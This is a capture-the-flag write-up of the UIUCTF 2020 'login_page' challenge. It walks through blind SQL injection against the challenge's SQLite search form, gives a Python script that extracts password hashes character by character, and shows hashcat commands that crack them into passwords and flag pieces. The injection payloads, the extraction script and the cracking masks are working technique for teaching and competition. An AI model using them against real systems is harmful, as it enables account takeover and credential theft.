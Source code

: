 ```yaml
---
layout: post
title: "UIUCTF 2020 Writeups"
categories: ctf
---
```


## Introduction {#intro}
{: style="text-align: center"}

| Challenge Name | Category | Solves | Points |
|:--------------:|:--------:|:------:|:------:|
|[login_page](#login_page) | Web | 23 | 200 |


----------------

## login_page {#login_page}
{: style="text-align: center"}
#### Category: Web | Solves: 23 | Points: 200
{: style="text-align: center"}

----------------

{:refdef: style="text-align: center;"}
![login_page challenge description](https://i.imgur.com/mCYRHDL.png){: .imgCenter}
{: refdef}

The site is rather simple, with only a small login box and a user lookup feature.  Since we're told the site is running SQLite, it's a safe we're looking for something revolving around an injection. We try searching for just the SQLite wildcard "%" (which matches any string of 0 or more characters) and we're presented with a nice list of all the users in the database. 

{:refdef: style="text-align: center;"}
![user list found using sqlite wildcard](https://i.imgur.com/p5ULjCj.png){: .imgCenter}
{: refdef}

From here, we try to log in as Alice and are told we have the wrong password, but also given a password hint. 

{:refdef: style="text-align: center;"}
![login hint for alice](https://i.imgur.com/24imHr2.png){: .imgCenter}
{: refdef}

After playing around with injections for a little while, we find a nested SELECT query which proves to be extremely useful. By querying the `sqlite_master` table we can ask for data from any column in the database, but we can't actually SEE it. When we combine the nested SELECT query with a conditional AND statement, we can start to piece together the contents of those columns.

Through trial and error, we find that there are three basic ways in which the server can respond to our queries: with data, with no data, or with an error. Each of these happens in a different situation and gives us more insight into the structure of the database.

First, since we already know USERNAME exists, we use this as a baseline for a known-good query. We see that we get user data back when a specific column exists.

`%" AND username in (SELECT username FROM sqlite_master where username like "%") --`

{:refdef: style="text-align: center;"}
![results from good sql subquery](https://i.imgur.com/OAYJGKx.png){: .imgCenter}
{: refdef}

Next, we try to query columns for users we know don't exist.  This simply returns no information at all, without giving us any errors.

`%" AND username in (SELECT username FROM sqlite_master where username like "FAKE") --`

{:refdef: style="text-align: center;"}
![no results from sql subquery](https://i.imgur.com/22ycWWR.png){: .imgCenter}
{: refdef}

Lastly, we try a non-existent column to establish a baseline response for faulty queries.  When this is the case, we get the message `ERROR: Something went wrong!` We also get this error when we forget to comment out otherwise good, working queries by ending the query with the SQL single-line comment symbol `--`

`%" AND username in (SELECT username FROM sqlite_master where FAKE like "%") --`

{:refdef: style="text-align: center;"}
![error message on bad sql query](https://i.imgur.com/vq2OnGe.png){: .imgCenter}
{: refdef}

Using this knowledge we can guess at what the password column must be called, and after a couple tries we find that "password_hash" doesn't throw us any errors.  Now that we know what we're up against, we can switch up our query and use our old wildcard friend to brute-force the hash 1 character at a time by using a query like:

`%" AND username in (SELECT username FROM sqlite_master where password_hash like "%") --`

{:refdef: style="text-align: center;"}
![results from good sql subquery](https://i.imgur.com/mvZXAJu.png){: .imgCenter}
{: refdef}

Below is Python script that will be responsible for doing all of the heavy lifting. If what we know of the hash so far is correct for that user, the user's information is returned (e.g if Bob's hash starts with `41%`.) If any character of the hash so far is wrong (e.g if we ask if Bob's hash starts with `4F%`) the application won't return us any info at all. This allows us to check for the existence of the `bio` string for each user to make sure we're always on the right track.

{% highlight python %}
import requests
chars = '1234567890abcdef'                    
names = ['alice','bob','carl','dania','noob'] 

def hashfinder(x, name):                      
    url = 'https://login.chal.uiuc.tf/search'
    query = {'request' : name+'" AND username in (SELECT username FROM sqlite_master where password_hash like "'+x+'%") -- -'}
    req = requests.post(url, data=query)      
    if 'is '+name in req.text:                
        return(x)                             

for name in names:                            
    pwhash=''                                 
    while len(pwhash) < 32:                   
        for y in chars:                       
            if hashfinder(pwhash+y, name):    
                pwhash+=y                     
                if len(pwhash) == 32:         
                    print(name +':'+ pwhash)  
{% endhighlight %}

When run, this bad boy gives us the output of:

| name | hash |
|:----:|:----:|
| alice | 530bd2d24bff2d77276c4117dc1fc719 |
| bob | 4106716ae604fba94f1c05318f87e063 |
| carl | 661ded81b6b99758643f19517a468331 |
| dania | 58970d579d25f7288599fcd709b3ded3 |
| noob | 8553127fedf5daacc26f3b677b58a856 |

Now that we have extracted all the hashes, we can get to work trying to crack them using the hints we are given.  Luckily, there is only one hash without a corresponding hint (`8553127fedf5daacc26f3b677b58a856`) and with a simple Google search we find out that the password is `SoccerMom2007`. We use this password to sign in and are given the first part of our flag : `uiuctf{Dump`
Side note: the password/hash combo is on Google because it is in the very popular [RockYou wordlist](https://github.com/praetorian-code/Hob0Rules/blob/master/wordlists/rockyou.txt.gz) that is very commonly used in CTF-like challenges and is even included in Kali Linux (can be found in `/usr/share/wordlists/rockyou.txt.gz`)

{:refdef: style="text-align: center;"}
![looking up the first hash on google](https://i.imgur.com/Z9YPC5d.png){: .imgCenter}
{: refdef}

The second and third hashes are cracked very quickly with a very basic Hashcat command. It's worth noting that Hashcat has a built in mode for double MD5 (-m 2600), so Bob's password isn't really any harder to crack than Alice's as far as the commands go (although double MD5 is obviously slightly slower to crack.) If you want to learn more about the basics of cracking hashes with Hashcat, you can do so [here.](https://laconicwolf.com/2018/09/29/hashcat-tutorial-the-basics-of-cracking-passwords-with-hashcat/) If you don't have a beefy GPU available, there's an [interesting blog post](https://deadpixelsec.com/Hashcat-on-Google-Colab) on how you can run Hashcat for free on Google Colab that you might find useful!

Hash number four requires us to build our own wordlist in the format of [Greek God name](https://gist.github.com/sshell/308f3518221d98c16a7b69eb9b209d85#file-gods-txt) + [U.S. State name](https://gist.github.com/sshell/308f3518221d98c16a7b69eb9b209d85#file-states-txt). This can be accomplished by finding these two separate lists on Google, and mixing with a [quick Python script](https://gist.github.com/sshell/308f3518221d98c16a7b69eb9b209d85#file-combine-py). I'm not going to include it here since it's mundane, but you can click the links if you want to see the lists and code behind this task. We found that the password ended up being `DionysusDelaware` and claimed the 4th piece of the flag.

The fifth and final hash is the most interesting one of the bunch.  The password hint is in Arabic and translates to `My favorite animal (6 characters only)` (this was later updated to specify _Arabic_ characters.) We ran it against a few animal wordlists to make sure it wasn't going to be THAT easy before deciding to crack the hash by guessing Arabic characters. This is tricky, but doable running Hashcat with the following arguments:

`hashcat -m 0 -a 3 --hex-charset -1 d8d9dadb -2 808182838485868788898a8b8c8d8e8f909192939495969798999a9b9c9d9e9fa0a1a2a3a4a5a6a7a8a9aaabacadaeafb0b1b2b3b4b5b6b7b8b9babbbcbdbebf -o output hashes "?1?2?1?2?1?2?1?2?1?2?1?2"`

On this [UTF-8 encoding table,](https://utf8-chartable.de/unicode-utf8-table.pl?start=1536) Arabic letters span 256 characters from `D880` to `DBBF`. We split up these two bytes and create a mask for each, meaning that each single Arabic letter is represented in the mask by a `?1?2` pair. Once we get the rule written, the hash is cracked rather quickly. With the final hash cracked, all we have to do is put together the five pieces of the flag and claim out 200 points!

{:refdef: style="text-align: center;"}
![arabic character on the unicode/utf-8 character table](https://i.imgur.com/49zr7TC.png){: .imgCenter}
{: refdef}

Here's what all the data looks like when we're all done:

| name | hint | hash | password | flag |
|------|------|------|----------|------|
| `noob` | `(none)` | `8553127fedf5daacc26f3b677b58a856` | `SoccerMom2007` | `uiuctf{Dump` |
| `alice` | `My phone number (format: 000-000-0000)` | `530bd2d24bff2d77276c4117dc1fc719` | `704-186-9744` | `_4nd_un` |
| `bob` | `My favorite 12 digit number (md5 hashed for extra security) [starts with a 10]` | `4106716ae604fba94f1c05318f87e063` | `5809be03c7cc31cdb12237d0bd718898` | `h45h_63` |
| `carl` | `My favorite Greek God + My least favorite US state (no spaces)` | `661ded81b6b99758643f19517a468331` | `DionysusDelaware` | `7_d4t_` |
| `dania` | `الحيوان المفضل لدي (6 أحرف عربية فقط)` | `58970d579d25f7288599fcd709b3ded3` | `طاووسة` | `c45h}` |

----------------

{:refdef: style="text-align: center;"}
[--- Back to Top ---](#intro)
{: refdef}

----------------
